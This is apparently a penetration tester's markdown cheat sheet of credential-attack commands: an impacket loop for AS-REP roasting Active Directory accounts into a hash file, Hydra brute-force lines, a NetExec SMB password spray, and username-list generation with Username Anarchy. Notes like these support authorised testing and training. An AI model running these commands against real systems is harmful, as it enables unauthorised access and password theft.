 # ASREPRoasting

Extract hashes from user accounts that do not require pre-authentication
```
unames.txt can be generated with a tool like Username Anarchy, etc.

while read u; do impacket-GetNPUsers fqdn/"$u" -request -no-pass -dc-ip ipaddress >> hashes.txt; done < unames.txt
```

# Hydra

Brute Force Service
`hydra -l username -P passwordlist ipaddress servicename`

File user:pass Format
`hydra -C userpass.txt ipaddress servicename`

# NetExec

Password spray username = password creds
`netexec smb ipaddress -u users.txt -p users.txt --no-bruteforce --continue-on-success`

# Username Anarchy

Generate Usernames From Full Names
`./username-anarchy --input-file ../fullnames.txt --select-format first,flast,first.last,firstl > ../unames.txt`
